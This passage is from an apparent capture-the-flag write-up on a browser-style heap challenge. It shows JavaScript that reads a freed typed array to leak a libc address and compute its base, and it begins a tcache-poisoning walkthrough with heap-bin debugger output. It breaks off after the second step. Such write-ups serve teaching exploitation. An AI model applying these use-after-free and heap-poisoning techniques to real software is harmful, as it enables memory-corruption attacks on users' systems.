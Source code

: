 ```js
function hex(a) {
  var result = "";

  for (var i = 7; i >= 0; i--) {
    result += ('0' + a[i].toString(16)).slice(-2);
  }

  return result
}

function alloc_list(sz, chr) {
  var arr = [];
  for (var i = 0; i < sz; i++) {
      arr.push(chr);
  }
  return arr;
}

big_list = alloc_list(0x1000, 0x41);
big_list_typed = new Uint8Array(big_list); // Create the 0x1000 length chunk
big_list_typed.midnight(); // Frees the typed array

libc_leak_str = hex(big_list_typed);
libc_leak = parseInt(libc_leak_str, 16);
libc_base = libc_leak - 0x1ed350;
```

## Tcache Poison
Many operations influence the heap layout and the bins. Using functions like `console.log` affected both our leaks, and other operations affected our ability to properly write to the freed chunks.

After a lot of tweaking, we developed working exploit ([pwn.js]({{ "/assets/code/midnightQuals22/hfs_browser/pwn.js" | relative_url }})) with the following steps:

#### 1. Allocate a chunk of size 0x1e0 (we chose 0x1e0 since the Tcache for this size was already populated, preventing problems with the chunk counter)

```js
chunk = new Uint8Array(0x1e0);
```

#### 2. Free the chunk

```js
chunk.midnight();
```

```
Tcachebins[idx=29, size=0x1f0] count=2  ←
    Chunk(addr=0x4c9a80, size=0x1f0, flags=PREV_INUSE)  ←
    Chunk(addr=0x4c5960, size=0x1f0, flags=PREV_INUSE)
```
